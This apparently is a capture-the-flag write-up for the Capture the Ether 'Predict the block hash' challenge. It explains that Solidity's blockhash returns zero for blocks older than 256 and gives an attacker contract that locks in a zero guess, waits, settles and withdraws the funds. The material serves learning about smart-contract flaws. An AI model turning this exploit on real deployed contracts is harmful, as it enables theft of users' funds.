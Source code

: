 # Predict the block hash Capturetheether

## Goals

=> Guessing an 8-bit number is apparently too easy. This time, you need to predict the entire 256-bit block hash for a future block.

### Hints

- None

### Solution

- The vulnerability is that there is no time limit on when you have to use the `settle()` function, and since only the blockhash of the most recent 256 blocks are availible as stated in the solidity docs: "The block hashes are not available for all blocks for scalability reasons. You can only access the hashes of the most recent 256 blocks, all other values will be zero." and trying to get the blockhash of a block which we can't acces will always translate to `0x0000000000000000000000000000000000000000000000000000000000000000` we just need to place our guess like that and then wait the next block + 256 other blocks and we will win the challenge.

- A big help was the solidity docs and trying to `console.logBytes32(blockhash(block.number + 1))` which obviously also translates to `0x0000000000000000000000000000000000000000000000000000000000000000`.

- I started up a local hardhat node and tried it with this contract and advancing the block.number by calling the `increaseBlock()` function 265 times after `placeGuess()` and it was succesful.

### Attacker Contract

```solidity
contract Hack {
    PredictTheBlockHashChallenge predictContract;
    uint256 blockCounter;

    constructor(address _predictContract) {
        predictContract = PredictTheBlockHashChallenge(_predictContract);
    }

    receive() external payable {}

    function placeGuess() public payable {
        bytes32 answer = 0x0000000000000000000000000000000000000000000000000000000000000000;
        predictContract.lockInGuess{value: 1 ether}(answer);
    }

    function increaseBlock() external {
        // increase blockCount in local hardhat node running
        blockCounter++;
    }

    function attack() public {
        predictContract.settle();
    }

    function withdrawStolenFunds() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```
